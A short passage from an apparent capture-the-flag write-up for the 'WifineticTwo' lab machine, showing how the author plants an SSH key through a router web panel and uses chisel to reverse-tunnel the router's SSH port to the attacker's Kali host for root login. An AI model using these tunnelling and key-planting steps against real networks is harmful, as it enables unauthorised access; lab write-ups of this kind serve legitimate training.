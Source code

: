 Inspecting the website, we can **upload our public SSH key** to log in to the machine, so I upload it:<br />
![](/assets/WifineticTwo/16.png)
<br />
<br />

Finally, let's tunnel the SSH service of the router and connect to it:

```bash
Kali> chisel server --reverse -p 8080
Target> ./chisel client 10.10.16.12:8080 R:2222:192.168.1.1:22
Kali> ssh root@0.0.0.0 -p 2222
```

![](/assets/WifineticTwo/18.png)
<br />
<br />
